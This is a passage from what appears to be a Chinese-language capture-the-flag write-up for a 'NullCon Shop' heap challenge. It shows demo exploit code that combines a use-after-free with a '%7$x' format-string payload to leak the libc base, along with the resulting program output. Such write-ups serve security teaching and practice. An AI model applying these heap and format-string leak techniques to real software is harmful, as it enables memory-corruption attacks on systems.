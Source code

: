```
        puts("tt`}`");
    `}`
  `}`
  puts("t]");
  puts("`}`");
`}`
```

那么看到这些后就有想法了，如果我们可以控制copyright的内容的话我们就可以leak出libcbase，而UAF刚好能满足这个需求，在简单的测试后我们得到fmt的偏移量为7

```
#demo
add(0x10,'0000',0x10)
add(0x10,'1111',0x10)
free(1)
free(0)
payload = 'aaaa'+'x00'*0x14+'%7$x'
add(0x38,payload,0x10)
show()
```

```
`{`
    "Books" : [
        `{`
            "index": 2,
            "name": "aaaa",
            "price": 16,
            "rights": "Copyright NullCon Shop"
        `}`,
        `{`
            "index": 1633771873,
            "name": "(null)",
            "price": 0,
            "rights": "61616161
ight NullCon Shop"
        `}`,
        `{`
            "index": 2,
            "name": "aaaa",
            "price": 16,
            "rights": "Copyright NullCon Shop"
        `}`
    ]
`}`
NullCon Shop
(1) Add book to cart
(2) Remove from cart
(3) View cart
(4) Check out
```

这时我们可以成功的leak出libc，在libcdatabase查了一下得到远程的环境是libc2.27，这时我们切到libc2.27的环境下。
